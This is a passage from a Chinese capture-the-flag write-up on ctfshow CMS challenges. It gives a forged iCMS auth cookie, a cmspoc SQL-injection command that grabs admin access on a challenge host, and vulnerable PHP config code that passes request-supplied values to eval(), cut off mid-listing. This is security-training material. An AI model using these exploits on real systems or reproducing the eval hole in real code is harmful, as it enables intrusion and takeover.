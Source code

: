 伪造**cookie**

```json
{'iCMS_iCMS_AUTH': 'df8da53ee9CVSWJjkHSFUf1cyhN4Yq4aBucPDrsb/tGn0VnNEfBzUN4hqcJ8Wzf91w'}
```

![image-20221227154628575](ctfshow_cms.assets/image-20221227154628575.png)

或者利用[cmspoc](https://github.com/chybeta/cmspoc)，改改里面的密钥

```bash
python2 cmspoc.py -t icms -s v701_sqlinject_getadmin -u http://393e03e7-d10b-488e-9517-8c442463f5ad.challenge.ctf.show/admincp.php
```

## web480

给出了源码

**config.class.php**

```php
<?php
class config{
	public static function init(){
		foreach ($_REQUEST['conf'] as $key => $value) {
	     	config::change($key, $value);
		}
	}

	public static function change($k,$v){
		$conf = self::parseFile('config.php');
	    $conf[$k] = $v;
	    self::saveValues($conf);
	}
	public static function parseFile($file)
    {
        $options = array();
        foreach (file($file) as $line) {
            $line = trim(preg_replace(array("/^.*define\([\"']/", "/[^&][#][@].*$/"), "", $line));
            if ($line != "" && substr($line, 0, 2) != "<?" && substr($line, -2, 2) != "?>") {
                $line = str_replace(array("<?php", "?>", "<?",), "", $line);

                $opts = preg_split("/[\"'],/", $line);

                if (count($opts) == 2) {
                    if (substr($opts[1], 0, 1) == '"' || substr($opts[1], 0, 1) == "'") {
                        $opts[1] = substr($opts[1], 1, -3);
                    } else {
                        $opts[1] = substr($opts[1], 0, -2);
                    }

                    if (substr($opts[0], -5, 5) == "_HTML") {
                        $opts[1] = eval("return " . $opts[1] . ";");
                    }
                    $options[$opts[0]] = str_replace("\'", "'", $opts[1]);
                }
            }
        }
        return $options;
    }
	public static function saveValues($values, $configname = '')  
```